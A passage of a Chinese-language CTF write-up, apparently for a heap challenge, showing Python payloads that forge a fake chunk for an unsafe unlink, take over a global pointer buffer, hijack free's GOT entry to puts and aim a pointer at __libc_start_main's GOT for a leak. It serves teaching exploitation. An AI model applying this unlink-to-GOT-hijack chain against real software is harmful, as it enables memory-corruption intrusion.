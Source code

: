 接著來看看 payload：

```python
fake_fd = 0x6020a8 - 0x18
fake_bk = 0x6020a8 - 0x10

payload = ""
payload += p64(0x0) # 0x603010 的 previous size 不是很重要給個 0
payload += p64(0x21) # 0x603010 的 size 
payload += p64(fake_fd) # fake 0x603010 的 fd
payload += p64(fake_bk) # fake 0x603010 的 bk

# 這裡已經到了 0x603040 也就是 big secret 的 chunk
payload += p64(0x20) # fake previous size 讓她往回找 previous chunk 可以找到 0x603010
payload += p64(0xfb0) # big secret chunk size 
```

renew 完 huge 送了以上 payload 來偽造 chunk 之後，call `wipe(big)`，他就會進行 unsafe unlink `0x603010`。

因為新版的 unlink 會檢查 FD->bk 會不會 = p，BK->fd 會不會 = p，所以 unlink 不能直接讓 GOT entry 接 shellcode。

unlink 完後，global buffer 的 layout 如下：

```assembly
0x602090:       0x00007ff7c9bae620      0x0000000000000000
0x6020a0:       0x00000000013b0040      0x0000000000602090
0x6020b0:       0x00000000013b0010      0x0000000100000000
0x6020c0:       0x0000000000000001
```

此時 huge_buf 會指到 global buffer 上，接下來再一次 renew huge 來讓這些 secret buffer 指到任意的 address。

payload：

```python
free_got = 0x602018
payload = ""
payload += 'A'*0x10 + p64(0x0) # padding
payload += p64(0x6020b0) # 讓 huge_buf 指到 small_buf 的 address
payload += p64(free_got) # 讓 small_buf 指到 GOT of free 來進行 GOT hijacking
```

接著 renew(small) 我們就可以把 `free` hijack 成 `puts`

```python
puts_got_value = 0x4006c6
payload = p64(puts_got_value)*2
```

這裡 *2 的目的是讓後面的 `puts` 不要壞掉

這時候我們再一次 renew(huge)，這時候就是 overwrite small_buf，我們讓他指到 `__libc_start_main` 的 GOT entry

```python
libc_start_main_got = 0x602048
payload = p64(libc_start_main_got) + p32(1)*3
```

這裡的 `p32(1)` 是把 small big huge 的 inuse 設成 1。

